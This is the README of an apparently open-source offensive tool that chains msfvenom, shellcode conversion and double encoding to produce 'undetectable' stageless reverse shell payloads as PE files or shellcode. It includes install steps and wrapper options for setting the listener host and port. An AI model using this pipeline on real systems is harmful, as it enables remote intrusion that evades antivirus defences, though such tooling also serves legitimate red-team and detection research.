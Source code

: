 # PEPWN
PWNPE is a multi chained tool that has a goal to generate an undetectable reverse shell payload in different formats (PE, shellcode). The payload is stageless and it works without the need of Metasploit Handler, it just needs a TCP listener (using netcat).


# Overview

1- generate a payload with msfvenom.
2- generate a shellcode from it
3- encodes it.
4- apply 2nd layer of encoding using sgn.
5- transfer it into a shellcode format of use or create exe file that triggers that shellcode using syscalls.



# Installation

Go to /root directory 

> git clone https://github.com/0xx7/PEPWN.git



./build.sh

Then 

./wrapper -H



# Documentation

Usage: ./wrapper.sh <OPTIONS>
 
 OPTIONS are:
 
 -f : format/Mode (1 for .exe PE file <DEFAULT> ; 2 for shellcode)
 
 -t : type of shellcode. 1 for raw data ; 2 for base64encoded data ; 3 for big endian hex encoded string. (only if format is 2 otherwise this will be ignored)
 
 -h : host/ip/domain of the listener
 
 -p : port of the listener
 
 -H : help documentation
 
 Example: ./wrapper.sh -f 1 -h 127.0.0.1 -p 4444


# How to use

https://youtu.be/SYriAv_FPAg



